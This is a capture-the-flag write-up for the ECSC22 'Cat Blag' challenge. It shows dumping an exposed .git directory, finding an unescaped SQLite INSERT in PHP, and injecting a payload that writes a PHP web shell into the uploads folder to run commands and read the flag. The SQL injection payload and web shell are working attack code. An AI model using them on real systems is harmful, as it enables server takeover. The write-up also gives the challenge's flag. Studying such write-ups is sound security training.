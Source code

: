 # Cat Blag
> Check out my awesome cat blog 🐱 :uwu:
(Thank god PHP still exists and I don't have to learn another language.)
https://catblag.ecsc22.hack.cert.pl/

## Recon
There's one particular comment in the HTML source that seems interesting:
```html
<!-- I try to develop my websites at a very high standard. I use version control software and my cats help me program. -->
```
Since the author claims to be using PHP (perhaps running as CGI) and version control, it's possible that he forgot to restrict access to the *.git* folder. Indeed navigating to */.git* returns the *Forbidden* error whereas trying to access a non-existent path like */aaaaa* results in *Not Found* error.

## Downloading the source code
Since we have access to the *.git* directory it's possible to dump the repository using tools like [git-dumper](https://github.com/arthaud/git-dumper). After cloning the tool and installing packages listed in it's *requirements.txt* we can run it with the following command to save Cat Blag's source into *blag* directory:
```sh
./git-dumper/git_dumper.py https://catblag.ecsc22.hack.cert.pl/.git/ blag
```

## Investigating the repo and source code
There's no trace of the flag in the git repository so let's take a look at the *index.php* file. Lines 42-48 contain an interesting piece of code:
```php
if (isset($_GET["visit_source"])) {
    $visitRef = $_GET["visit_source"];
} else {
    $visitRef = "";
}

$db->exec("INSERT INTO visits VALUES ('" . date('Y-m-d H:i:s') . "', '" . $visitRef . "')");
```
It's clear that by setting the *visit_source* parameter appropriately we can perform an SQL injection since the query isn't executed through a prepared statement and *$visitRef* isn't escaped in any way. Taking a look at line 26 we know that the RDBMS used is SQLite, through which we can easily get RCE by following the steps described in this [article](https://research.checkpoint.com/2019/select-code_execution-from-using-sqlite/).

## Gaining RCE
By attaching another database from a non-existent file, we can essentially create a new PHP script that will evaluate any code we desire on the server. URL-encoding the following payload and passing it as *visit_source* parameter does the trick:
`'); ATTACH DATABASE 'uploads/canhazpwn.php' AS pwn; CREATE TABLE pwn.pwn(data); INSERT INTO pwn.pwn(data) VALUES('<?php system($_GET["cmd"]); ?>'); -- `
To confirm that the exploit works, lets navigate to `https://catblag.ecsc22.hack.cert.pl/uploads/canhazpwn.php?cmd=id`. The script returns a string with SQLite's binary data and the output of the *id* command at the end. Now lets list the directory containing *index.php* by setting *cmd* to *ls+..* (we need to add the *..* since *canhazpwn.php* resides in the *uploads* directory). We can see that it contains a file named *this-is-the-flag-but-with-an-unpredictable-name.txt*. Catting this file yields the flag.

## Flag
`ecsc{those_darn_catz}`
